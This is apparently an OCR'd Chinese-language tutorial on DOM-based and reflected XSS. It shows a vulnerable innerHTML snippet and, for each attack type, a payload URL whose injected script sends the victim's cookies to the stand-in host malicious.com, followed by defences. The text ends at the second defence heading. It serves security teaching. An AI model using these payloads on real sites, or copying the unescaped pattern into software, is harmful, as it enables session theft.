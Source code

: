 **DOM型XSS攻击详解：**
我将为您描述一个具体的 DOM 型 XSS 攻击的例子。

**场景：** 假设我们有一个简单的搜索引擎网站，它使用 JavaScript 从 URL 的查询参数中获取用户输入的搜索关键词，然后直接将其显示在搜索结果页面上。以下是这个操作的简化版 JavaScript 代码：

```javascript
// 获取 URL 中 "q" 参数的值
let userQuery = new URLSearchParams(window.location.search).get('q');

// 直接在页面上显示搜索关键词
document.getElementById('search-result').innerHTML = "您搜索的是：" + userQuery;
```

**攻击过程：**

1. 攻击者注意到这个网站直接从 URL 的 `q` 参数中获取数据，并不经过任何过滤或转义就将其插入到页面中。
2. 攻击者构建以下 URL，其中包含一个恶意的 JavaScript 脚本作为 `q` 参数的值：

```js
http://example.com/search?q=<script>fetch('http://malicious.com/steal?cookie='+document.cookie)</script>
```

3. 攻击者将这个恶意链接分享到社交媒体、论坛或通过其他方式诱导受害者点击。
4. 当受害者点击此链接时，他们的浏览器会打开这个搜索引擎网页。因为网页中的 JavaScript 代码没有进行任何数据验证或转义，所以 `<script>` 标签中的恶意代码会被执行。
5. 恶意脚本将受害者的 cookie 信息发送到攻击者控制的 `malicious.com` 域名。

**防御措施：**

要防止 DOM 型 XSS 攻击，网站开发者可以采取以下措施：

1. 永远不要信任用户输入。即使数据是从 URL、表单、Cookies 或任何其他来源获取的，也应对其进行验证和转义。
2. 使用 `.textContent` 或其他安全方法，而不是使用 `.innerHTML` 来插入数据，因为 `.innerHTML` 可能会执行嵌入其中的脚本。
3. 使用内容安全策略 (CSP) 来限制哪些脚本可以被执行。
4. 了解并使用现代 JavaScript 框架（如 React、Vue 或 Angular）提供的内置 XSS 防护机制。



**反射性XSS详解：**
我将为您描述一个具体的反射型 XSS 攻击的例子。

**场景：** 假设有一个网站，该网站允许用户通过 URL 的查询参数来自定义欢迎消息。例如，当用户访问 `http://example.com/welcome?name=Alice` 时，网站会显示“Hello, Alice!”。该网站的后端代码简单地从 URL 获取 `name` 参数，并将其嵌入到返回给用户的 HTML 页面中。

**攻击过程：**

1. 攻击者发现这个功能并意识到网站没有过滤或转义 `name` 参数的值。
2. 攻击者构建以下 URL，其中包含一个恶意的 JavaScript 脚本作为 `name` 参数的值：

```
http://example.com/welcome?name=<script>fetch('http://malicious.com/steal?cookie='+document.cookie)</script>
```

3. 攻击者通过电子邮件、社交媒体、或其他方法将这个恶意链接发送给受害者，试图诱骗他们点击。
4. 当受害者点击该链接时，他们的浏览器会请求上述网址，服务器简单地将 `<script>` 标签中的恶意代码作为响应的一部分返回给受害者的浏览器。
5. 由于该代码被嵌入到返回的 HTML 页面中，所以它会在受害者的浏览器中执行，导致恶意脚本将受害者的 cookie 信息发送到攻击者控制的 `malicious.com` 域名。

**防御措施：**
